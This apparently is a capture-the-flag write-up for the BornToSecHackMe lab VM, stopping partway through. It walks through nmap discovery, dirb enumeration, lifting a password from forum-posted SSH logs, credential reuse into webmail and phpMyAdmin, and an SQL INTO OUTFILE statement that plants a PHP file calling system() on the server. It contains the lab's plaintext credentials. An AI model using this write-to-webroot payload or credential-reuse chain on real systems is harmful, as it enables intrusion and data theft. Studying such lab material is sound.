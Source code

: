 # IP address:
After running the machine, we found that there is no apparent IP address we can use to somehow 
access the machine.

As a first attempt we used the command `nmap -sn [HOST_IP]/16` to do a ping scan on the subnet 
while the machine is attached to the bridge adapter, but we were faced with the sheer amount of 
IP addresses of the cluster. So we used virtualbox's Host Network Manager to create an interface
with a specific IP address, then run the same command but this time with netmask of 24.

The IP address we find using nmap give us a webpage but no more informations it apart from fome
links to social media websites.



# Enumeration:
We used `dirb https://[IP_ADDRESS]` to enumerate all probable links in the server. Among the 
found results, we spot the link ending with `.../templates_c` wiche contains some .php files.
The idea is to try and put a .php file that we can run manually.
There is also some links like `.../forum`, `.../webmail` and .../phpmyadmin.
The link `.../forum` has a page with some logs in it, and crolling through 
we see a successful login attemp with the user `lmezard`, but before it there's a line with
characters that resembles a password. 

```
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): check pass; user unknown
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; lo...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com....
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard
Oct 5 10:51:01 BornToSecHackMe CRON[13049]: pam_unix(cron:session): session closed for user root
Oct 5 10:52:01 BornToSecHackMe CRON[13092]: pam_unix(cron:session): session opened for user root by (uid=0)
```



# Webmail:
Using `lmezard` and `!q\]Ej?*5K5cy*AJ` as username and password on the login page we access 
the user `lmezard`, and checking the profile page we find the email address `laurie@borntosec.net`.
Now if we try using that email address with the password we found we have access the home page
of the webmail service where we can see an email with some pretty viral informations, the username 
and password for phpmyadmin:
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
Let's use these credientials to login info phpmyadmin, and there we find all the tables of the database.



# PhpMyAdmin:
So far, we have no direct access to the machine.
We can now write some SQL commands to retrieve content of files from 
```
SELECT '<?php system("cat /home/LOOKATME/password > /var/www/forum/templates_c/password.txt"); ?>'
INTO OUTFILE '/var/www/forum/templates_c/get_password.php'
```
